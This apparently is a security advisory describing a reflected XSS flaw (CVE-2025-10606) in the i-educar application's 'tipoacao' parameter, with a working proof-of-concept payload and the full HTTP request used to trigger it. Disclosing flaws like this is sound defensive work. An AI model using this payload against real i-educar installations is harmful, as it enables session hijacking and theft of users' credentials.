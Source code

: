 # Cross-Site Scripting (XSS) Reflected endpoint `/module/Configuracao/ConfiguracaoMovimentoGeral` parameter `tipoacao`

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `/module/Configuracao/ConfiguracaoMovimentoGeral` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `tipoacao` parameter. The payload is reflected in the application’s HTTP response without proper sanitization, leading to immediate execution in the victim’s browser.

---

## Details

**Vulnerable Endpoint:** `POST /module/Configuracao/ConfiguracaoMovimentoGeral`  
**Parameter:** `tipoacao`

The application fails to properly validate and sanitize user input in the `tipoacao` parameter. An attacker can craft a malicious URL containing a JavaScript payload, which is reflected back in the server’s response and executed when a victim accesses the crafted link.

---

## PoC

**Payload:**

`%22%3E%3Cimg%20src=x%20onerror=alert('XSS-PoC4')%3E`

### Steps to Reproduce:

1. Log in to the _i-educar_ application.
    
2. Make a request using Caido similar to the one below.

```
POST /module/Configuracao/ConfiguracaoMovimentoGeral HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/module/Configuracao/ConfiguracaoMovimentoGeral
Cookie: grav-admin-flexpages=eyJyb3V0ZSI6Ii9ob21lIiwiZmlsdGVycyI6e319; grav-tabs-state={%22tab--f0e041eed24f87f2b6b02fd6924d0a08%22:%22data.languages%22%2C%22tab-flex-pages-e838602f51515c83bca06a8ae758ce52%22:%22data.security%22%2C%22tab-flex-pages-b6676b27f5cdf6b6c22f8e18da4259a0%22:%22data.advanced%22%2C%22tab-flex-pages-raw-8f0a83a672754f7823714134334b1de8%22:%22data.content%22%2C%22tab-flex-pages-dc26c564cb2116d77bda5fff24ba90dc%22:%22data.security%22%2C%22tab-flex_conf-user_groups-accounts-02f0e9f68f41a0648ed530f80bd72c06%22:%22data.cache%22%2C%22tab-flex-pages-raw-9a0364b9e99bb480dd25e1f0284c8555%22:%22data.content%22%2C%22tab-flex-pages-e91e6348157868de9dd8b25c81aebfb9%22:%22data.security%22%2C%22tab--8cc45760590da203c5fc3568ecbabd66%22:%22data.routes%22%2C%22tab--7a2ac3477f8ad14aa750831441325a16%22:%22data.facebook%22}; i_educar_session=zwaLFqQcylntJZp9KejOuTI6ts3wcjebWqYM2vcd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar%22%3E%3Cimg%20src=x%20onerror=alert('XSS-PoC4')%3E
```

<img width="838" height="577" alt="Pasted image 20250817003111" src="https://github.com/user-attachments/assets/c7b15a1a-70cf-483d-bc05-99d451c68125" />


The result:

<img width="746" height="542" alt="Pasted image 20250817003156" src="https://github.com/user-attachments/assets/e4b6a1cf-1893-4217-88ee-e52729ab6151" />



---

## Impact

Reflected XSS vulnerabilities can lead to severe consequences, including:

- **Session hijacking:** Theft of cookies or authentication tokens
    
- **Credential theft:** Capturing sensitive user credentials via injected scripts
    
- **Malware delivery:** Redirecting victims to malicious downloads or exploit pages
    
- **Phishing attacks:** Displaying deceptive forms or content to steal user data
    
- **Reputation damage:** Exploiting trust between the application and its users
    
- **Client-side manipulation:** Altering the application’s content and behavior dynamically


## References

[CVE-2025-10606](https://www.cve.org/CVERecord?id=CVE-2025-10606)

[VulnDB-324626](https://vuldb.com/?id.324626)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
